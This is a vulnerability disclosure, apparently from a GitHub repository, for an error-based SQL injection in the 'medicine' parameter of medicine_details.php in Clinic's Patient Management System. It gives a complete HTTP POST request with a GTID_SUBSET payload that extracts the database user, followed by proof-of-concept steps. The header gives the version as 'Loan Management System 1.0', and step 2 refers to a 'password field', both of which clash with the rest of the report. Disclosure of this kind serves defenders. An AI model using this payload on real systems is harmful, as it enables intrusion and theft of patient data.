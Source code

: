 # Clinic's Patient Management System - medicine_details.php 'medicine' SQL inject

#### Exploit Title: Clinic's Patient Management System - medicine_details.php 'medicine' SQL inject

#### Exploit Author: [webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vendor Homepage: https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Software Link:https://www.sourcecodester.com/php-clinics-patient-management-system-source-code

#### Version: Loan Management System 1.0

#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Clinic's Patient Management System does not filter the content correctly at the "medicine_details.php /medicine" parameter, resulting in the generation of SQL injection.

#### Payload used:

```POST /medicine_details.php HTTP/1.1
POST /medicine_details.php HTTP/1.1
Host: 192.168.31.35:8089
Content-Length: 79
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.35:8089
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.35:8089/medicine_details.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=lkdn1jvj1em9c4j3olu9e2pdpo
Connection: close

medicine=1 AND GTID_SUBSET(CONCAT(0,(SELECT user()),0),3619)&packing=11&submit=
```

#### Proof of Concept

1、After logging in, use the add medicine function to capture and analyze the traffic, and find that the program is in medicine_details.php.

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/imagesmeidicineshow.png)

2、Looking at the source code, it is found that the password field is directly brought into the SQL statement query without filtering

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/imagesmedicinesourcecode.png)

3、During manual testing, it is found that SQL error reporting injection exists, so the sensitive information and permissions of the database can be obtained by using the error reporting 

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/imagesmedicinesqlresult1.png)

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/imagesmedicinesql.png)

4、Through testing with the tool, it is found that there are other injection methods such as blind SQL time injection.

 ![image](https://github.com/joinia/webray.com.cn/blob/main/Clinic's-Patient-Management-System/imagesmedicinesqlresult2.png)

